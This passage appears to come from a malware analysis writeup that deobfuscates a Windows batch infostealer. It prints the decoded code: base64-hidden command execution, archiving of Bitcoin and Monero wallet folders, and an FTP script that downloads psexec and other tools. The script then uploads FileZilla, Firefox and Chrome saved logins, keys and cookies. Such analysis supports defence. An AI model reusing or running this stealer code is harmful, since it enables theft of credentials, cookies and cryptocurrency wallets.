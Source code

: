 Decoded base64 strings:
```bash
rar a -r -rr %temp%\btc.rar %temp%\btc
rar a -r -rr %temp%\xmr.rar %temp%\xmr
```

#### Conclusion:
* Zips using rar "%temp%\btc" into "%temp%\btc.rar"
* Zips using rar "%temp%\xmr" into "%temp%\xmr.rar"

### Analysis of deobfuscated ":zip"
```bash
cd programfiles\7-Zipset "string15=N3ogYSAldGVtcCVcYnRjLjd6ICV0ZW1wJVxidGM="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string15"""^)^)') do 
set "decoded15=i"powershell cmd /c start /b decoded15 >nulset "string16=N3ogYSAldGVtcCVceG1yLjd6ICV0ZW1wJVx4bXI="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string16"""^)^)') do 
set "decoded16=i"
powershell cmd /c start /b decoded16 >nul
timeout /t 3 >nul
goto 5
```
Decoded base64 strings:
```bash
7z a %temp%\btc.7z %temp%\btc
7z a %temp%\xmr.7z %temp%\xmr
```

#### Conclusion:
* Zips using rar "%temp%\btc" into "%temp%\btc.7z"
* Zips using rar "%temp%\xmr" into "%temp%\xmr.7z"

### Analysis of deobfuscated ":5"
```bash
cd temp
ECHO host *localhost*>>nts.txt
SET username=cli
SET userpass=h4x
for /F "tokens=2 delims=*" a in ('findstr /I "host" nts.txt') 
do (ECHO open a>cmd.dat
ECHO user username>>cmd.dat
ECHO userpass>>cmd.dat
ECHO bin>>cmd.dat
ECHO get psexec.exe>>cmd.dat
ECHO get sys.exe>>cmd.dat
ECHO get cmdow.exe>>cmd.dat
ECHO :: -------- FtP Steal ------- ::>>cmd.dat
ECHO put appdata\FileZilla\filezilla.xml>>cmd.dat
ECHO put userprofile\AppData\Local\filezilla-server-gui\settings.xml>>cmd.dat
ECHO :: -------- EnD --------- ::>>cmd.dat
ECHO :: -------- FF Steal ------- ::>>cmd.dat
ECHO put "appdata\Mozilla\Firefox\Profiles\*.default-release\logins.json">>cmd.dat
ECHO put "appdata\Mozilla\Firefox\Profiles\*.default-release\key3.db">>cmd.dat
ECHO put "appdata\Mozilla\Firefox\Profiles\*.default-release\key4.db">>cmd.dat
ECHO put "appdata\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite">>cmd.dat
ECHO :: -------- EnD --------- ::>>cmd.dat
ECHO :: -------- CROME Steal --- ::>>cmd.dat
ECHO put "userprofile\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies">>cmd.dat
ECHO put "userprofile\AppData\Local\Google\Chrome\User Data\Default\History">>cmd.dat
ECHO put "userprofile\AppData\Local\Google\Chrome\User Data\Default\Login Data">>cmd.dat
ECHO put "userprofile\AppData\Local\Google\Chrome\User Data\Local State">>cmd.dat
ECHO :: -------- EnD --------- ::>>cmd.dat
ECHO :: -------- BTC Steal --- ::>>cmd.dat
```